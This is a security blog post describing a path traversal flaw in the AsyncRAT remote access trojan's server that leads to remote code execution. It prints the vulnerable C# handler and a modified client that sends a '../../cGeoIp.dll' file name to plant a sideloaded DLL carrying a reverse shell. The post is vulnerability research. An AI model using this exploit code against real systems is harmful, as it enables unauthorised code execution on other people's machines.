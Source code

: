 +++
author = "Brian Stadnicki"
title = "AsyncRAT RCE vulnerability"
date = "2022-03-12"
categories = [ "vulnerability" ]
tags = [ "reverse engineering", "malware", "rat", ".NET", "AsyncRAT" ]
+++

![Preview](/posts/vulnerability-asyncrat-rce/preview.png)

[AsyncRAT](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp) is an open source RAT (Remote Access Tool). While it isn't typically used for advanced attacks, it's very common in gaming scenes, thanks to how easy to use and surprisingly polished it is. Thankfully, there exists a RCE flaw.

## Attack surface

The AsyncRAT server listens by default on 6606, 7707 and 8808. No authentication is required to connect to a server, with commands being sent over a tcp ssl socket connection, with a custom [msgpack](https://msgpack.org/) implementation and gzip stream compression.

There are many commands, but since this is written in C#, the easiest attack vector is to [sideload a DLL](https://capec.mitre.org/data/definitions/641.html), so the commands of interest write a file.

## Command: socketDownload/save

```C#
 string dwid = unpack_msgpack.ForcePathObject("DWID").AsString;
FormDownloadFile SD = (FormDownloadFile)Application.OpenForms["socketDownload:" + dwid];
if (SD != null)
{
    if (!Directory.Exists(SD.DirPath))
        return;
    string fileName = unpack_msgpack.ForcePathObject("Name").AsString;
    string dirPath = SD.DirPath;
    if (File.Exists(dirPath + "\\" + fileName))
    {
        fileName = DateTime.Now.ToString("MM-dd-yyyy HH;mm;ss") + "_" + fileName;
        await Task.Delay(100);
    }
    await Task.Run(() => SaveFileAsync(unpack_msgpack.ForcePathObject("File"), dirPath + "\\" + fileName));
    SD.Close();
}
```

As we can see, the file is saved to the form's download directory appended with the file name. As there is no sanitisation for the file name, it is vulnerable to a [path traversal](https://capec.mitre.org/data/definitions/126.html) attack. The vulnerability is limited by the form check, which results in the vulnerability only working when the attacker is downloading a file. This means that during a file download, the server is vulnerable.

For the purposes of this proof of concept, I will exploit it when the client has a file requested. It would be possible to keep sending a command to exploit this, especially because the connected client doesn't show in the list view or logs until the client sends identification information.

## Exploitation

### DLL-sideload

In order to exploit a dll-sideloading vulnerability, I need to identify a DLL to replace. I choose `cGeoIp.dll`, which appears to be used for geolocation of clients from their IP addresses. This DLL is also effective because it is loaded when the server is started.

The DLL is included in the project's resources, so I edit in a [C# reverse shell](https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc) using dnSpy.

### Client modification

For the exploitation itself, instead of writing a custom client for AsyncRAT, I found it easier to edit the client itself. Especially because my POC exploits the attacker trying to download a file, so keeping all the features helps convince the attacker to continue exploring the client and trigger the vulnerability.

```C#
private bool infected = false;

public void DownnloadFile(string file, string dwid)
{
    TempSocket tempSocket = new TempSocket();

    try
    {
        if (!infected)
        {
            infected = true;

            MsgPack msgpack = new MsgPack();
            msgpack.ForcePathObject("Packet").AsString = "socketDownload";
            msgpack.ForcePathObject("Hwid").AsString = Connection.Hwid;
            msgpack.ForcePathObject("Command").AsString = "pre";
            msgpack.ForcePathObject("DWID").AsString = dwid;
            msgpack.ForcePathObject("File").AsString = "../../cGeoIp.dll";
            msgpack.ForcePathObject("Size").AsString = new FileInfo("cGeoIp.dll").Length.ToString();
            tempSocket.Send(msgpack.Encode2Bytes());

            MsgPack msgpack2 = new MsgPack();
            msgpack2.ForcePathObject("Packet").AsString = "socketDownload";
            msgpack.ForcePathObject("Hwid").AsString = Connection.Hwid;
            msgpack2.ForcePathObject("Command").AsString = "save";
            msgpack2.ForcePathObject("DWID").AsString = dwid;
            msgpack2.ForcePathObject("Name").AsString = "../../cGeoIp.dll";
            msgpack2.ForcePathObject("File").LoadFileAsBytes("cGeoIp.dll");
            tempSocket.Send(msgpack2.Encode2Bytes());
        }

        MsgPack msgpack = new MsgPack();
        msgpack.ForcePathObject("Packet").AsString = "socketDownload";
        msgpack.ForcePathObject("Hwid").AsString = Connection.Hwid;
        msgpack.ForcePathObject("Command").AsString = "pre";
        msgpack.ForcePathObject("DWID").AsString = dwid;
        msgpack.ForcePathObject("File").AsString = file;
        msgpack.ForcePathObject("Size").AsString = new FileInfo(file).Length.ToString();
        tempSocket.Send(msgpack.Encode2Bytes());

        MsgPack msgpack2 = new MsgPack();
        msgpack2.ForcePathObject("Packet").AsString = "socketDownload";
        msgpack.ForcePathObject("Hwid").AsString = Connection.Hwid;
        msgpack2.ForcePathObject("Command").AsString = "save";
        msgpack2.ForcePathObject("DWID").AsString = dwid;
        msgpack2.ForcePathObject("Name").AsString = Path.GetFileName(file);
        msgpack2.ForcePathObject("File").LoadFileAsBytes(file);
        tempSocket.Send(msgpack2.Encode2Bytes());
    }
    catch
    {
        tempSocket?.Dispose();
        return;
    }
}
```

The AsyncRAT client has the modified `cGeoIp.dll` in the same directory. In order to not raise suspicions, the requested file is also sent, as the server doesn't keep track of state.

## Demo

{{< youtube PybRvNi2pKk >}}
